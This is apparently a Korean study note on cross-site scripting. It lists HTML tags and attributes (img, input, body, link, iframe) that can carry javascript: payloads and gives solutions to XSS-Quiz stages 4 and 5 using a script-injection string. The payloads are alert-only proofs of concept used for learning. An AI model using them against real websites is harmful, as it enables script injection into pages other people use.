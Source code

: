 ### HTML tags for XSS

1. img
    ```html
      <img src="javascript:alert('Hello World!');">
      <img dynsrc="javascript:alert('Hello World!');">
      <img lowsrc="javascript:alert('Hello World!');">
    ```
    위와 같이 `src`, `dynsrc`, `lowsrc`에 자바스크립트 코드를 넣음으로써 XSS 공격을 할 수 있다.
  
2. input
    ```html
      <input type="image" src="javascript:alert('Hello World!');">
    ```
    이미지 태그와 비슷한 느낌인 듯 싶다. 
 
3. body
    ```html
      <body background="javascript:alert('Hello World!');">
      <body onload=alert('XSS')>
    ```
    마찬가지로, 이미지를 넣을 때 해당 소스에 자바스크립트 코드를 넣을 수 있다.

    혹은, `onload` 이벤트 핸들러에 자바스크립트 코드를 넣을 수 있다.
 
4. link
    ```html
      <link rel="stylesheet" href="javscript:alert('Hello World!');">
    ```
    CSS 파일을 불러오는 데에 사용하는 `link` 태그 또한 사용할 수 있다. 원래 CSS파일의 위치가 들어가는 곳에 자바스크립트 코드를 넣을 수 있다.

5. iframe
    ```html
      <iframe src="javascript:alert('Hello World!');"></iframe>
    ```
    `src` 위치에 자바스크립트 코드를 넣을 수 있다.

### Reference

https://jjadmin.tistory.com/24

### XSS-Quiz Stage #4

잘 보면 `p3`라는 이름을 가진 보이지 않는 `input`이 존재한다. 이 태그의 `value`에 값을 넣고 버튼을 누르면 그 값이 유지된다.

즉, 해당 태그의 `type="hidden"`을 지워서 보이게 한 뒤에 아래를 입력하면 된다.

```
"><script>alert(document.domain);</script>
```

### XSS-Quiz Stage #5

`p1`라는 이름을 가진 `input`에 값을 입력하고 버튼을 누르면 `value`에 나오게 된다. 즉, 아래의 코드를 입력하면 된다는 뜻이다.

```
"><script>alert(document.domain);</script>
```

하지만, `maxlength="15"` 때문이 입력되지 않는다. 지우고 위 코드를 입력하면 된다.
